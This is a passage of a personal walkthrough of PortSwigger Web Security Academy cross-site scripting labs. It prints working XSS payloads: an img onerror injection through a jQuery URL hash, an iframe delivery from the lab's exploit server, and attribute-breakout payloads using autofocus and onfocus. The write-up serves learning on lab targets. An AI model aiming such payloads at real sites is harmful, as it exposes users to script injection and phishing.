 ![](/assets/images/XSS/Pasted%20image%2020250724111705.png)

This behavior is not vulnerable by itself. However, due to the use of a vulnerable jQuery version (1.x), attacker-controlled input inside `window.location.hash` gets parsed unsafely. You can read more about this vulnerability here: [https://nvd.nist.gov/vuln/detail/CVE-2015-9251](https://nvd.nist.gov/vuln/detail/CVE-2015-9251)

A malicious payload like this triggers XSS directly:

```
https://LABID.web-security-academy.net/#<img src=x onerror=print()>
```

To solve the lab, you must simulate a phishing attack, sending the malicious link to a victim. This is done via an iframe on the exploit server:

```html
<iframe src="https://LABID.web-security-academy.net/#" onload="this.src+='<img src=x onerror=print()>'"></iframe>
```

This iframe appends the payload to the URL after loading the lab page, triggering the DOM XSS automatically.

### 7. Reflected XSS into attribute with angle brackets HTML-encoded

Payload that worked:

```html
a" autofocus onfocus="alert(1)"
``` 

Methodology and explanation:

The regular payload with script tags does get embedded but doing 'edit as HTML' shows us that the <> tags are getting html encoded. We can also see that there is a reflection point in the input tag in the value attribute. We can attempt to break out of the value attribute and execute our payload.

![](/assets/images/XSS/Pasted%20image%2020250724232129.png)

What we have:

```html
<input type="text" placeholder="Search the blog..." name="search" value="STUFF HERE">
```

Now to escape the attribute, we will first put a random character or string and close it with a quote. Then we will put the payload in.

```html
a" autofocus onfocus="alert(1)"
```

This payload tells the browser to autofocus to the input element and onfocus, execute alert(1).

I also tried:

```html
a" onfocus="alert(1)" autofocus
```
